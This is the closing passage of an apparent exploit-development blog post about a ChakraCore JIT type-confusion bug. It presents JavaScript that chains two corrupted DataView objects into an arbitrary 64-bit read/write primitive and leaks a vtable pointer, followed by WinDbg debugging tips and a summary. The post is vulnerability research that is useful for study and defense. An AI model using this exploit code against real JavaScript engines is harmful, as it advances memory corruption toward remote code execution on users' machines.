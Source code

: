 ```javascript
        dv1.setUint32(0x38, addr\_lo, **true**);
        dv1.setUint32(0x3C, addr\_hi, **true**);
        
        *// read from addr (Step 5)*
        **return** dv2.getInt32(0, **true**) + dv2.getInt32(4, **true**) * BASE;
    }
    
    **let** write64 = **function**(addr\_lo, addr\_hi, value\_lo, value\_hi) {
        *// dv2->buffer = addr (Step 4)*
        dv1.setUint32(0x38, addr\_lo, **true**);
        dv1.setUint32(0x3C, addr\_hi, **true**);
        
        *// write to addr (Step 5)*
        dv2.setInt32(0, value\_lo, **true**);
        dv2.setInt32(0, value\_hi, **true**);
    }
    
    *// get dv2 vtable pointer*
    vtable\_lo = dv1.getUint32(0, **true**);
    vtable\_hi = dv1.getUint32(4, **true**);
    print(hex(vtable\_lo + vtable\_hi * BASE));
    
    *// read first vtable entry using the R\W primitive*
    print(hex(read64(vtable\_lo, vtable\_hi)));
    
    *// write a value to address 0x1111111122222222 using the R\W primitive (this will crash)*
    write64(0x22222222, 0x11111111, 0x1337, 0x1337);
}

main();

```

Note: To debug the code yourself (in WinDBG for example), using  “instruments” conveniently breaks interesting lines of the JS code. See these two useful ones below:


* Set a breakpoint on `ch!WScriptJsrt::EchoCallback` to stop on print(); calls.
* Set a breakpoint on `chakracore!Js::DynamicTypeHandler::SetSlotUnchecked` to stop on DynamicObject properties assignments that are performed by the interpreter. This is extremely useful to see how the javascript objects (‘o’ and ‘obj’) corrupt other objects in memory.


Feel free to combine the two to navigate comfortably throughout the exploitation code.


## Summary.


We’ve seen how we use the JIT corruption of the DynamicObject’s auxSlots to ultimately gain a full R\W primitive. With that, we had to use the corrupted object to further corrupt other interesting objects. Notably, two DataView objects in which the first precisely corrupts the second to control the primitive’s address of choice. Additionally, we had to bypass several limitations\issues imposed by working with the javascript’s DynamicObject “API”. Finally, be aware that gaining a full R\W primitive is only the first step of exploiting this bug. An attacker would still need to redirect execution flow to gain full RCE. While this remains beyond scope of this blog post, it could be a helpful exercise for the reader to explore.



